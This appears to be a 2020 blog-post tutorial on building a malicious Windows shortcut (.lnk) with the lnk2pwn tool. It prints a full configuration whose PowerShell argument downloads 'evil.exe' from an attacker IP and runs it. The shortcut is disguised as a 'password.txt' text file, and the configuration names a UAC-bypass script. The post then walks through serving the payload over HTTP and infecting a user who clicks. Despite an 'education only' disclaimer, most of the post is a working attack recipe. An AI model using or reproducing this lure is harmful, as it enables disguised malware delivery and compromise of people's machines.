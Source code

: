 ```yaml
---
title: "Create malicious Shortcut .LNK"
date: "2020-10-03"
layout: single
tags:
- Fileless
categories:
- Blog-post
---
```


Hey, everyone. Let's create some fileless malware using shortcut (.lnk). 

Don't do bad things haa, Allah marah! This is for education and research purpose only.

## Malicious Shortcut(.lnk) Generator

So, a script name [Lnk2Pwn](https://github.com/tommelo/lnk2pwn) made by Tommello will help us generate malicious shortcut .lnk

For installation, lnk2pwn requires **python2.7** and **wine** to create a Windows shortcut:

    sudo apt-get install python2.7
    sudo apt-get install wine

You can get the lastest version by clonning this repository:

    git clone https://github.com/tommelo/lnk2pwn.git

In lnk2pwn directory, edit config.json. The project contains a template file called config.json that defines the attributes of the .lnk file:

    {
        "shortcut": {
            "target_path": "C:\\Windows\\System32\\cmd.exe",
            "working_dir": "C:\\Windows\\System32",
            "arguments": "/c powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.83.128:8000/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"",
            "icon_path": "C:\\Windows\\System32\\notepad.exe",
            "icon_index": null,
            "window_style": "MINIMIZED",
            "description": "Password",
            "fake_extension": ".txt",
            "file_name_prefix": "password"
        },
    
        "elevated_uac": {
            "file_name": "uac_bypass.vbs",
            "cmd": "cmd.exe"
        }
    }

So, basically the `arguments` part will execute Powershell (PS) command that tell PS to download `evil.exe` and put the `evil.exe` into temp (%temp%) folder. After semicolon, we tell the PS to start/execute our `evil.exe`.

Now, run this line to generate our malicious .lnk:

    python lnk2pwn.py -c config.json -o [destination]

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/1.PNG)

Our lnk file now has been generated. Let's put this malicious .lnk file into our target machine.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/2.PNG)

Looks legit right?

## Open our HTTP server
Setup our HTTP server so that evil.exe can be download from HTTP link we give in our PS line (`http://192.168.83.128:8000/evil.exe`)

    python -m SimpleHTTPServer

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.PNG)

## Pwned by a Shortcut

So, if a user click the `password.txt`(.lnk), they will be infected. Let's wait for a couple of seconds for our evil.exe to be downloaded. And Hooray 🎉, our `evil.exe` is executed!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/mallnk/3.gif)

